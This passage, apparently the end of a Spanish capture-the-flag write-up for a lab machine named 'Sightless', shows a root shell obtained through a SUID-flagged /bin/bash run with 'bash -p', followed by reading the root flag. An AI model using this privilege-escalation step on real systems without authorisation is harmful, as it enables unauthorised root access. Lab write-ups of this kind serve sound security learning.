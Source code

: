 Y ya podemos lanzarnos una `bash` como `root`
```console
michael@sightless:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14 11:31 /bin/bash
michael@sightless:~$ bash -p
bash-5.1# id
uid=1000(michael) gid=1000(michael) euid=0(root) groups=1000(michael)
bash-5.1# 
```

Podemos leer la flag de `root`
```console
bash-5.1# cat /root/root.txt 
67649d7de01791...
```

¡Y ya estaría!

Happy Hacking! 🚀